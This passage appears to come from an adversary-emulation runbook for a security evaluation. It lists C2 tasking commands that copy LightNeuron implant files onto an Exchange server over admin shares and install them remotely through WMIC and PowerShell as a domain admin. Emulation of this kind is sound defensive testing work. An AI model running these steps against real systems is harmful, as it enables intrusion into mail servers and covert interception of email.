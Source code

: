 * Wait 1 minute before copying the next file:

```bash
# Copy LightNeuron companion DLL
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\mtxcli.dll \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\v15\\bin\\exdbdata.dll\"", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the next file:

```bash
# Copy installation script
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\msiex.ps1 \\\\drebule\\C$\\Windows\\System32\\msiex.ps1", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the rules file:

```bash
# Copy email rules file
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\wdr.rules.xml \\\\drebule\\C$\\Windows\\ServiceProfiles\\NetworkService\\AppData\\Local\\Temp\\msmdat.xml", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute before copying the last config file:

```bash
# Copy config file
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\perfe009.dat \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\v15\\bin\\winmail.dat\"", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute and then task Snake to install LightNeuron remotely using WMI and Powershell, using `ZilvinasAdmin`'s token

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "wmic.exe", "args": "/node:drebule /privileges:enable /output:STDOUT process call create \"cmd.exe /c powershell.exe -File C:\\Windows\\System32\\msiex.ps1 > C:\\Windows\\Temp\\msiexinstallation.log 2>&1\"", "runas": "nk\\ZilvinasAdmin"}'
```
:heavy_exclamation_mark: Verify that the WMIC output shows a `ReturnValue` of 0.

* Wait 1 minute and then task Snake to check the installation log for any errors:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "type \\\\drebule\\C$\\Windows\\Temp\\msiexinstallation.log", "runas": "nk\\ZilvinasAdmin"}'
```

> Expected output will start with messages regarding PS-Session, the bottom of
> the file should look like:
> ```
> PSComputerName        : localhost
> RunspaceId            : 1e56a6dd-5fd2-4545-9db8-2a4ca6a77212
> Enabled               : False
> Priority              : 10
> TransportAgentFactory : Microsoft.Exchange.Transport.Agent.ConnectionFiltering.ConnectionFilteringAgentFactory
> AssemblyPath          : C:\Program Files\Microsoft\Exchange Server\V15\TransportRoles\agents\Hygiene\Microsoft.Exchange
>                         .Transport.Agent.ConnectionFiltering.dll
> IsCritical            : True
> EscalationTeam        : 
> Identity              : Connection Filtering Agent
> IsValid               : True
> ObjectState           : New
> 